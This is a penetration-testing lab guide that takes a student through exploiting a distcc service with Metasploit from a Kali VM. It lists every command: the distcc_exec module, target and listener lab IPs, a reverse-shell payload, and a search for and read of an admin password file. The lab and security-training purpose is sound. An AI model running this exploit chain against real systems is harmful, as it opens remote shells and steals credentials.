

# Privilege Escalation Demo

**Note**: Ensure that you do not miss running any of the commands mentioned in the steps below. If you fail to run any of the commands, the lab validation may fail.

We will first set up a low-privileged shell using Metasploit, which you will then use for post-exploitation and privilege-escalation techniques.

1.  Open the Hyper-V Manager in your **LabVM** and right click on **Kali virtual machine** then click on **Connect** to connect to your **Kali virtual machine**.

    

    

    login to the Kali VM using username **root** and password **kali**.

2. On the Desktop of Kali VM, right click and choose **Open Terminal here**.

    

3. In the terminal enter **msfconsole** to launch msfconsole.

    

4. search for **distcc** using command **search distcc**.

    

5. select the module using command **use exploit/unix/misc/distcc_exec**.

    

6. set the remote host using command **set RHOSTS 172.22.117.150**.

    

7. Before running the module, we need to set a payload. List the available payloads using command **show payloads**.

    

8. Select the reverse payload. Be sure NOT to select reverse_bash, or the exploit will not work using command **set PAYLOAD cmd/unix/reverse**.

    

9. Host that listens for the payload communication. In this case, our LHOST is the machine that we're currently operating on. 

    Run command **set LHOST 172.22.117.100**

    

10. Run the module.

    

11. Use the `find` command (`find / -type f -iname "*admin*.txt"`), as the following image shows:

    

12. Run the commnd **cat /var/tmp/adminpassword.txt** to get the admin username and password.

    

13. click on **ctrl + c** and then enter command **exit** from msfconsole.

    
